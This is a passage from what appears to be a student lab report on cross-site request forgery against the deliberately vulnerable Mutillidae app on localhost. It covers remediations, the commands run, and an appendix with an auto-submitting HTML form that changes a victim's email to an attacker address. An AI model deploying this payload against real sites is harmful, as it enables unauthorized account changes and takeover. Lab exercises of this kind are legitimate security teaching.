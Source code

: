 ```

## 3) Remediations
- Implement server-side per-request CSRF tokens embedded in forms and validated server-side.
- Set `HttpOnly; Secure; SameSite` on session cookies.
- Verify `Origin`/`Referer` for sensitive POSTs and require re-authentication for high-value actions.

## 4) Commands run
- python3 -m http.server 8000 (to host attacker.html)
- curl -I http://localhost/mutillidae/   (header check)

## 5) Conclusion
Demonstrated CSRF PoC on an authorized lab target and verified basic defenses. Evidence and recommended remediations are saved in the `evidence/` folder.
```

---

## 11) Appendix — useful commands, attacker HTML & quick tips

```bash
# workspace
mkdir -p ~/expt07/evidence
cd ~/expt07

# host attacker page locally (in folder with attacker.html)
python3 -m http.server 8000

# quick header check to see cookie flags
curl -I http://localhost/mutillidae/ > evidence/07_cookie_headers.txt

# take a screenshot
gnome-screenshot -a -f ~/expt07/evidence/04_state_changed.png
```

**Attacker HTML (quick copy)** — adjust `action` and field names to match the captured request:

```html
<!DOCTYPE html>
<html>
  <body>
    <form
      id="csrf"
      action="http://localhost/mutillidae/changeemail.php"
      method="POST"
    >
      <input type="hidden" name="email" value="attacker@evil.local" />
    </form>
    <script>
      document.getElementById("csrf").submit();
    </script>
  </body>
</html>
```
